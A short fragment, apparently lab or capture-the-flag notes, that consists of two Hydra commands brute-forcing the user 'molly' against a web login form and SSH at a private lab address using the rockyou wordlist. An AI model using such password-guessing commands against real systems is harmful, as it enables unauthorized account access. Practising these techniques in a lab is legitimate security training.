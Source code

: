 hydra -l molly -P /usr/share/rockyou.txt 10.10.237.139 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V

hydra -l molly -P /usr/share/rockyou.txt 10.10.237.139 ssh -T4
